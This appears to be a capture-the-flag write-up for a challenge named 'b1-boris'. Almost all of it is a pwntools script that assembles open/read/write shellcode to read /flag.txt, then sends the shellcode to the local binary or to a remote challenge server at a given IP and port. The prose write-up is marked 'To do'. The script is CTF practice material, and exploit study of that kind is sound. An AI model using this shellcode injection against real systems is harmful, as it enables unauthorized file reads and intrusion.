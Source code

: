 # b1-boris
## TLDR
Simple orw to read flag

## Complete write up
To do

## Solution
```py
#!/usr/bin/python2
from pwn import *
from sys import *

context.arch = "amd64"
# context.arch = "i386"

e = ELF('boris')
if(len(argv) == 2):
    p = connect("193.57.159.27", 22431)
else:
    p = process('boris')


cmd = """
b *0x0000555555554000+0x00000000000014CC
"""
if(len(argv) == 3):
    gdb.attach(p, cmd)

pload  = shellcraft.openat(-100, "/flag.txt", 0)
pload += "mov rbp, rax\n"
pload += shellcraft.read("rbp", "rsp", 500)
pload += shellcraft.write(1, "rsp", 500)
pload = asm(pload)
print disasm(pload)
pause()
p.sendline(pload)
p.interactive()
```

![](Pasted%20image%2020211011130108.png)